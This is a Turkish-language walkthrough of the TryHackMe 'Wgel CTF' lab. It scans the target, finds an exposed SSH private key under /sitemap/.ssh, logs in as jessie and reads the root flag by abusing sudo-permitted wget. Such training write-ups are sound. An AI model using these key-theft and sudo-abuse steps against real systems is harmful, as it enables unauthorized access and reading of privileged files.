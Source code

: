 ```yaml
---
title: 'TryHackMe | Wgel CTF WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [sudo]
render_with_liquid: false
---
```


Bu yazımda, TryHackMe platformunda yer alan “Wgel CTF” isimli meydan okumayı çözeceğiz. Öncelikle hedefi tanımak adına nmap ile bir port taraması yapalım. Daha sonra açık portlara ve üzerinde çalışan servislere göre yolumuzu çizmeye başlayabiliriz.

```console
$ nmap -sC -sV -T4 10.10.78.35
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Tarama sonucunda 22 (SSH) ve 80 (HTTP) numaralı portların açık olduğunu ve ana sayfada varsayılan apache2 sayfası olduğunu öğreniyoruz. Sayfanın kaynak kodunu görüntülediğimizde ise bir açıklama satırı ile karşılaşıyoruz.

```
<!-- Jessie don't forget to udate the webiste -->
```

Burada jessie’nin web sitesini güncellemesi gerektiği yazıyor. Web sitesinde bir sorun olduğu bariz ama ne olduğunu veya nerede bilmiyoruz. ffuf aracını kullanarak sitedeki dosya ve dizinleri bulmaya çalıştım. Tarama sonucunda sitede sadece sitemap isimli dizinin bulunduğunu öğrendim.

Web sitesi hazır bir tema kullanıyor. Sayfaların kaynak kodlarına eklenmiş bir açıklama satırı olabilir. Bu yüzden hepsini teker teker kontrol ettim ama hiçbir bilgi bulamadım. Daha fazla dosya bulmak için ffuf aracını kullanarak /sitemap/ dizininin altındaki dosya ve dizinleri görüntülemeye çalışalım.

```console
$ ffuf -u http://10.10.78.35/sitemap/FUZZ -w /usr/share/wordlists/dirb/common.txt
...
.ssh                    [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 75ms]
css                     [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 79ms]
fonts                   [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 68ms]
images                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 65ms]
index.html              [Status: 200, Size: 21080, Words: 1305, Lines: 517, Duration: 71ms]
js                      [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 65ms]
...
```

Tarama sonucunda sitemap dizini altında .ssh adında bir dizinin daha olduğunu öğrendik. Bu dizinin içinde id_rsa dosyası bulunuyor.

```console
$ curl http://10.10.78.35/sitemap/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
...
```

Kullanıcı adının jessie olduğunu biliyoruz. Bu dosyayı kullanarak SSH servisine bağlanabiliriz.

```console
$ curl http://10.10.78.35/sitemap/.ssh/id_rsa > id_rsa
$ chmod 600 id_rsa
$ ssh jessie@10.10.78.35 -i id_rsa

jessie@CorpOne:~$ cd Documents/
jessie@CorpOne:~/Documents$ ls
user_flag.txt
jessie@CorpOne:~/Document
```

Sisteme girdikten sonra ilk bayrağı /home/jessie/Documents dizininde buluyoruz. Daha sonra “sudo -l” komutunu kullandığımızda ise wget aracını root haklarıyla çalıştırabileceğimizi görüyoruz. GTFOBins sitesinde wget aracını arattım ve “wget -i file” komutunu kullanarak dosya okuyabileceğimi öğrendim.

```
LFILE=file_to_read
wget -i $LFILE
```

/etc/shadow dosyasını çekip içerisindeki hash’i kırarak yetki yükseltebiliriz ama ben uğraşmak istemediğimden doğrudan /root/root_flag.txt dosyasını çekeceğim.

```console
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
jessie@CorpOne:~/Documents$ sudo /usr/bin/wget -i /root/root_flag.txt
--2025-03-18 00:32:20--  http://***/
Resolving *** (***)... failed: Name or service not known.
wget: unable to resolve host address ‘***’
```

Kullanıcı bayrağının bulunduğu dosya user_flag.txt adına sahipti bu yüzden root bayrağının root_flag.txt adında bir dosyada olabileceğini düşündüm. Vakit ayırıp okuduğunuz için teşekkür ederim.

